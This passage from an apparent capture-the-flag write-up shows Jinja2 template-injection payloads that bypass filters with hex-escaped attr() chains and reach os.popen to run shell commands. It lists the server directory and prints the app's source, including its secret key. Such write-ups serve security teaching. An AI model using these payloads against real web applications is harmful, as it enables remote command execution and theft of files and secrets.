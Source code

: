 ```text
{{ [[""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")()][0][127] }}
```

This should return `<class 'os._wrap_close'>`.

### Grabbing the file

Now that we've got the `os` module, we can use it's `popen` function to execute commands. Let's try to list the work directory using the following input:

```text
{{ [[[""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")()][0][127]|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")][0]["popen"]("ls -lA")|attr("read")() }}
```

It worked! We got the following result:

```text
total 28
dr-xr-xr-x    1 app      app           4096 Nov 28 14:15 __pycache__
-r--r--r--    1 app      app           1571 Nov 28 14:15 app.py
-r--r--r--    1 app      app             93 Nov 28 14:15 requirements.txt
-r-xr-xr-x    1 app      app             26 Nov 28 14:15 serve.sh
dr-xr-xr-x    1 app      app           4096 Nov 28 14:15 static
-rw-r--r--    1 root     root             2 Dec  2 13:53 supervisord.pid
dr-xr-xr-x    1 app      app           4096 Nov 28 14:15 templates
```

Now let's grab the contents of `app.py`:

```text
{{ [[[""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")()][0][127]|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")][0]["popen"]("cat app\x2epy")|attr("read")() }}
```

{{< code language="python" title="app.py" >}}

```py
import random
from flask import Flask, render_template_string, render_template, request
import os
import emojis

app = Flask(__name__)
app.config['SECRET_KEY'] = 'Leer alles over Software Security bij Arjen (follow @credmp) at https://www.novi.nl'

def magic(flag, key):
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[x]) ^ ord(key[::-1][x])) for x in range(len(flag)))

file = open("/tmp/flag.txt", "r")
flag = file.read()

app.config['flag'] = magic(flag, '46e505c983433b7c8eefb953d3ffcd196a08bbf9')
flag = ""

os.remove("/tmp/flag.txt")

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        emoji="unknown"
        try:
            p = request.values.get('emoji')
```
